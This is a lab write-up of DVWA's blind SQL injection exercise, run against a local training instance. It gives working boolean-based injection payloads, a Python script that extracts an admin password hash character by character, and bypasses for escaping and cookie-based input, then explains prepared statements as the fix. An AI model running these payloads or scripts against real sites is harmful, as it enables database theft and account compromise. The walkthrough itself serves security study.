# SQL Injection (Blind)

**Location:** `http://127.0.0.1:42001/vulnerabilities/sqli_blind/`

## What the page does

The underlying SQL vulnerability is identical to regular SQL Injection: the server builds a query like `SELECT first_name, last_name FROM users WHERE user_id = '$id';` by concatenating user input directly into the SQL string. The difference is that the response never shows the query results. It shows only one of two messages: "User ID exists in the database." if the query matched a row, or "User ID is MISSING from the database." if it did not.

That single-bit response is still enough to extract data. Every request answers a yes/no question of the attacker's choosing. To read a password character by character, the attacker asks questions like "is the first character of admin's password equal to 5?" and reads the answer from the response. A wrong guess returns MISSING, a right guess returns exists. Automate the questions and any string in any table becomes readable, one character at a time.

The technique uses SQL functions like `LENGTH()` and `SUBSTRING()` inside conditional clauses that only match when the answer is true. The attacker sends the crafted `id`, the server runs the injected query, and the exists/missing response leaks the truth value.

## Setup

DVWA running locally on Kali at port 42001. All exercises performed while logged in as admin. Security level changed between runs from the DVWA Security page. The Python attack scripts use the `requests` library. The PHPSESSID cookie is copied from the browser's dev tools (F12, Storage tab, Cookies) and pasted into each script.

The target throughout is admin's password field, which stores an unsalted MD5 hash. The hash for admin's default password is `5f4dcc3b5aa765d61d8327deb882cf99`, which is 32 hex characters. Each character is one of 16 possibilities (0-9, a-f), so worst case the extraction runs LENGTH check (up to ~64 requests) plus 32 positions times 16 candidates (512 requests), for around 550 requests total.

---

## Low

### Form


Text input for User ID and a Submit button.

### Normal lookup



Entering `1` returns "User ID exists in the database." No first name, no last name, no row content. Just the confirmation.



Entering `99` returns "User ID is MISSING from the database." Two different responses for the same page. That is the leak channel.

### Source




The handler reads the id parameter, concatenates it into the query with no escaping, executes the query, and sets `$exists = mysqli_num_rows($result) > 0`. The response text is chosen from that boolean. The query is identical in shape to regular SQLi Low; only the output logic differs.

### Manual proof of concept

The exists/missing response can be steered by an injected clause. The payload closes the opening quote, adds an AND with a subquery that returns true or false, and comments out the closing quote.

Match: `1' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE user='admin')='5' #`



Returns "User ID exists" because the first character of admin's password hash is `5`.

Miss: `1' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE user='admin')='4' #`



Returns "User ID is MISSING" because the first character is not `4`. Two identical requests differing by one character produce opposite responses. That is the exact leak the automated attack exploits, 32 times over.

### Automated extraction

Doing this by hand for a 32-character hash across 16 candidate characters is not practical. A short Python script walks through the length probe and the character-by-character extraction, printing each character as it lands.

```python
import requests

URL = "http://127.0.0.1:42001/vulnerabilities/sqli_blind/"
COOKIES = {
    "security": "low",
    "PHPSESSID": "<session>"
}
SUCCESS_MARKER = "User ID exists"
CHARSET = "0123456789abcdef"

def request(payload):
    r = requests.get(URL, params={"id": payload, "Submit": "Submit"}, cookies=COOKIES)
    return SUCCESS_MARKER in r.text

# Step 1: find password length
length = 0
for n in range(1, 65):
    payload = f"1' AND (SELECT LENGTH(password) FROM users WHERE user='admin')={n} #"
    if request(payload):
        length = n
        break

# Step 2: extract each character
password = ""
for i in range(1, length + 1):
    for c in CHARSET:
        payload = f"1' AND (SELECT SUBSTRING(password,{i},1) FROM users WHERE user='admin')='{c}' #"
        if request(payload):
            password += c
            break
```



Runs in under a minute. Final output: `5f4dcc3b5aa765d61d8327deb882cf99`, which decodes to "password" via a rainbow-table lookup that takes milliseconds.

### Why it works

The server-side handler still concatenates user input into a SQL string, so all the usual injection techniques apply. Hiding the query results just narrows the channel from "all columns of all matching rows" to "one bit per request". That bit is enough. Booleans compose: 32 characters times 16 candidates is only ~500 questions, and computers ask questions fast.

---

## Medium

### Form



Dropdown with 1-5 replaces the text input. Client-side only. Any HTTP client can send any value.

### Source



Two changes from Low. The id is passed through `mysqli_real_escape_string`, and the query uses `WHERE user_id = $id;` with no quotes around the parameter. Same numeric-context bug as regular SQLi Medium: the escape function does nothing when there are no quotes to escape.

### Adapted payload

Because there are no quotes around the parameter, the payload does not need a leading `'` to break out of anything. But the escape function would still corrupt any single-quoted string literals inside the payload (like `'admin'` or `'5'`), so those get replaced with hex-encoded byte strings. `'admin'` becomes `0x61646d696e`, `'5'` becomes `0x35`. Hex-encoded byte strings are valid SQL string literals and contain no quote characters for the escape function to escape.

The endpoint at Medium is POST, not GET, so the script uses `requests.post` with a `data=` payload instead of `params=`.

```python
ADMIN_HEX = "0x61646d696e"

for i in range(1, length + 1):
    for c in CHARSET:
        c_hex = f"0x{ord(c):02x}"
        payload = f"1 AND (SELECT SUBSTRING(password,{i},1) FROM users WHERE user={ADMIN_HEX})={c_hex} #"
        ...
```

### Extraction



Same 32-character hash: `5f4dcc3b5aa765d61d8327deb882cf99`. The escape function contributed nothing because the payload contained no quotes.

### Why it works

`mysqli_real_escape_string` escapes quotes and a few other characters. The payload avoided both the quote in the parameter context (by not needing to close a quote that was not there) and the quotes in the subquery (by using hex byte strings for `admin` and each candidate character). The server saw a syntactically valid query the moment concatenation happened, exactly as at Low.

The dropdown was cosmetic. The escape function was cosmetic when the parameter is not quoted. Neither change addressed the actual bug, which is that user input is being pasted into SQL text at all.

---

## High

### Form



The main page shows only "Click here to change your ID". The ID is set through a popup and stored in a cookie for the main page to read.

### Source




Two changes from Medium:

1. The input comes from `$_COOKIE['id']` rather than a request parameter. This means the attack script sets the id in the request cookies rather than in a form body.
2. The MISSING branch calls `if(rand(0,5)==3) { sleep(rand(2,4)); }`. Roughly one MISSING response in six sleeps for 2-4 seconds. The intent is to slow down automated blind extraction.

The query itself is `WHERE user_id = '$id' LIMIT 1;`. The quotes are back, and there is no escape function to work around, so the payload from Low works unchanged.

### Adapted payload

The script sets the id as a cookie and GETs the main SQLi Blind page to trigger the query. Same payload as Low.

```python
cookies = {
    "security": "high",
    "PHPSESSID": PHPSESSID,
    "id": payload,
}
r = requests.get(URL, cookies=cookies)
```

### Extraction



Same 32-character hash again: `5f4dcc3b5aa765d61d8327deb882cf99`. The random sleep slowed the run down (a few minutes rather than under one) but did not prevent extraction. The script measures response body content, not response time, so the exists/missing signal comes through cleanly regardless of how long each request took.

### Why it works

Moving the input into a cookie added zero sanitization. The value still ends up concatenated into a SQL string. The random sleep is a rate-limit disguised as a defense: it delays the attacker but does not stop them, and it wastes real users' time whenever their IDs are missing. Real rate-limiting (per-account request budgets, WAF-level anomaly detection, forced re-authentication after N failed lookups) would slow the attacker meaningfully. A random 0-5 second sleep on the miss branch does not.

---

## Impossible

### Form


Text input and Submit. What changes is entirely on the server.

### Source


Same PDO-based defense as regular SQLi Impossible:

1. Anti-CSRF `user_token` checked at the top.
2. `is_numeric($id)` rejects anything that is not a number.
3. `intval($id)` coerces to integer.
4. `$db->prepare('...WHERE user_id = (:id) LIMIT 1;')` with `bindParam(':id', $id, PDO::PARAM_INT)` sends the query template and the parameter to the database separately. The database driver treats the parameter as pure data, never as SQL.

### Attempted attack

Submitting the Low payload:


The response is "User ID is MISSING from the database." `is_numeric` returned false because the input starts with a quote, and the handler bailed before the query ran. Even if the numeric check had been bypassed, the prepared statement would have treated the string as data, not SQL, and no row would match a `user_id` of the payload string.

### Why it works

Prepared statements separate the query template from the parameter values at the protocol level. The template travels to the database once with a placeholder. The parameters travel separately, tagged with their types. The engine parses the query without ever seeing the parameter values, then plugs them in as data at execution time. There is no string where SQL and user input coexist, so there is no boundary to break out of.

The type coercion and `is_numeric` check are defense in depth: even a bug elsewhere in the parameter handling would not let a string reach the query, because the code refuses to run on non-numeric input.

---

## Takeaways

1. Hiding the query results does not fix the bug. Blind SQL injection turns a full-disclosure vulnerability into a one-bit-per-request oracle, and one bit per request is enough to extract any string in seconds to minutes. The severity is unchanged.
2. The same defense as regular SQL injection is the only reliable fix: prepared statements with bound parameters. Every level below Impossible in this exercise fails because the query is still a string that the developer built with user input in the middle.
3. Escape functions and unquoted numeric contexts do not compose. Medium's `mysqli_real_escape_string` was designed for quoted string literals, and the query at Medium did not quote the parameter. Even if the query had quoted the parameter, the payload could have used hex byte strings to avoid triggering the escape.
4. Rate-limiting the miss branch is not a defense. High's random sleep only affected the miss responses (which are the majority of blind SQLi requests), so it slowed the attack down but did not stop it. The exists response, which is the one that leaks the true bit, is instant.
5. The extraction target here (an unsalted MD5 hash) reversed to a common word in a rainbow-table lookup that took milliseconds. Blind SQL injection combined with weak password storage is a full account compromise dressed up as a boolean quirk in an error message.
